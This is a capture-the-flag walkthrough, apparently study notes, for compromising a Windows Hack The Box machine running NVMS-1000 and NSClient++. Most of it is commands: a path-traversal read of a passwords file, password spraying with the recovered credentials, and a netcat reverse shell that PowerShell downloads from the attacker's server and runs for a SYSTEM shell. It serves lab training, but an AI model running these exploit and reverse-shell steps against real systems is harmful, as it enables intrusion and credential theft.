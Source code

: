 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)


## 🔎 Recon

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.184
nmap -sV -sC -p 21,22,80,135,139,445,5040,5666,6063,6699,7680,8443 -oA scans/nmap-tcpscripts 10.10.10.184
```

---

## 📁 [FTP](FTP) Enumeration

```bash
wget -r ftp://anonymous:@10.10.10.184
find ftp/ -type f
cat ftp/Users/Nadine/Confidential.txt
cat ftp/Users/Nathan/Notes\ to\ do.txt
```

---

## 🌐 [Web](HTTP.md) (TCP 80) – NVMS-1000

```bash
searchsploit "nvms 1000"
# Test LFI
curl 'http://10.10.10.184/../../../../../../../../../../../../windows/win.ini'
# Use traversal to read passwords.txt
curl 'http://10.10.10.184/../../../../../../../../../../../../Users/Nathan/Desktop/passwords.txt'
```

---

## 🔓 Credential Testing

```bash
# Create users.txt and passwords.txt
cat > users <<EOF
administrator
nathan
nadine
EOF

cat > passwords <<EOF
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
EOF

crackmapexec smb 10.10.10.184 -u users -p passwords
```

---

## 🐚 Shell as Nadine [SSH](SSH)

```bash
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184
```

---

## 🔐 NSClient++ Enumeration & Tunnel

```bash
# Display password from inside SSH shell
nscp web -- password --display

# Local tunnel to access 127.0.0.1:8443
sshpass -p 'L1k3B1gBut7s@W0rk' ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

---

## 🧨 NSClient++ Exploitation Steps

```bash
# Attacker box: prepare reverse shell payload
echo '\programdata\nc.exe 10.10.14.24 443 -e cmd' > shell.bat
python3 -m http.server 80

# Target box: download tools
powershell wget http://10.10.14.24/nc64.exe -outfile nc.exe
powershell wget http://10.10.14.24/shell.bat -outfile shell.bat
```

Then on NSClient++ web GUI (via https://127.0.0.1:8443):
- Add external script `df` → `C:\\programdata\\shell.bat`
- Add schedule to run `df` every 10s
- Control → Reload

---

## 🖥️ Catch SYSTEM Shell

```bash
rlwrap nc -lvnp 443
# Wait for reverse shell
```